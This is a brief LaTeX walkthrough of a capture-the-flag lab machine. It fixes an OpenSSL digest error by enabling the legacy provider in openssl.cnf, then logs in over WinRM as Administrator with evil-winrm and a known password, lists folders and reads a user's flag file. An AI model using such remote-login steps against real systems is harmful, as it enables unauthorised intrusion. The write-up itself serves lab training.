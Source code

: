 \documentclass[a4paper,10pt]{article}
\begin{document}
We get the error
\begin{bash}
Error: An error of type OpenSSL::Digest::DigestError happened, message is Digest
initialization failed: initialization error
\end{bash}

I found the \href{https://forum.manjaro.org/t/openssl-issue-with-ruby-3-0-6p216/147369}{solution} to this issue by editing the \texttt{/etc/ssl/openssl.cnf} file. The following sections need to be modified:
\begin{bash}
default = default_sect
legacy = legacy_sect

[default_sect]
activate = 1

[legacy_sect]
activate = 1
\end{bash}

Now we can hack the machine:
\begin{bash}
evil-winrm --ip 10.129.97.105 --user Administrator --password badminton -P 5985
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ..
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls /Users/mike/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat /Users/mike/Desktop/flag.txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> exit
\end{bash}
\end{document}

